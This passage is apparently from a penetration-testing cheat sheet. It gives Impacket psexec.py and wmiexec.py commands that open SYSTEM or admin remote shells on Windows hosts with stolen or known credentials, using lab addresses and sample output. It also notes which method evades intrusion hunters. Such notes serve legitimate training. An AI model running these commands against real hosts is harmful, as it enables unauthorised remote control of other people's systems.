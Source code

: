 ##  PSExec.py

Psexec.py is a clone of the Sysinternals psexec executable, but works slightly differently from the original. The tool creates a remote service by uploading a randomly-named executable to the `ADMIN$` share on the target host. It then registers the service via `RPC` and the `Windows Service Control Manager`. Once established, communication happens over a named pipe, providing an interactive remote shell as `SYSTEM` on the victim host.


```shell-session
# Get help 
impacket-psexec -h

# Connect to a remote machine with a local administrator account
psexec.py $domain/$user:$password@$ip 

# Another way
impacket-psexec administrator:'<password>'@$ip
# Examples:
# psexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.130
# impacket-psexec inlanefreight.local/wley:'transporter@4'@172.16.5.130
```

```
# Results
C:\Windows\system32>whoami
nt authority\system
```


## wmiexec.py

Wmiexec.py utilizes a semi-interactive shell where commands are executed through [Windows Management Instrumentation](https://docs.microsoft.com/en-us/windows/win32/wmisdk/wmi-start-page). It does not drop any files or executables on the target host and generates fewer logs than other modules. After connecting, it runs as the local admin user we connected with (this can be less obvious to someone hunting for an intrusion than seeing SYSTEM executing many commands).

```shell-session
# Connect to a remote machine with a local administrator account
wmiexec.py $domain/$user:$password@$ip 
# Examples:
# impacket-wmiexec inlanefreight.local/wley:'transporter@4'@172.16.5.5 
# wmiexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.5
```


```
# Results
C:>whoami
domain\user22
```


## 🔐  Kerberoasting
